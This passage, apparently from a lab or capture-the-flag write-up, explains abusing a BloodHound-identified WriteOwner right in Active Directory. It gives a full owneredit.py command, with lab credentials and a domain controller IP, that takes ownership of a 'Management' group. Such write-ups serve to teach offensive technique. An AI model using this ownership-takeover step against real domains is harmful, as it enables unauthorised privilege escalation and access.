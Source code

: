 
## Abusing **WriteOwner** to add **Judith.Mader** to the **Management** group
Clicking on the edge in Bloodhound from `Judith.Mader` to the `Management` group, we get a '*recipe*' for how to abuse this:
![linuxattack.png](/assets/img/Certified/linuxattack.png)

First, we'll use `owneredit.py`, to take ownership of the the `management` group as `judith.mader`:
```bash
owneredit.py -action write \ 
  -new-owner judith.mader \  #<-- syntax change from bloodhound
  -target management \       
  certified/judith.mader:judith09 \ 
  -dc-ip 10.129.231.186
```
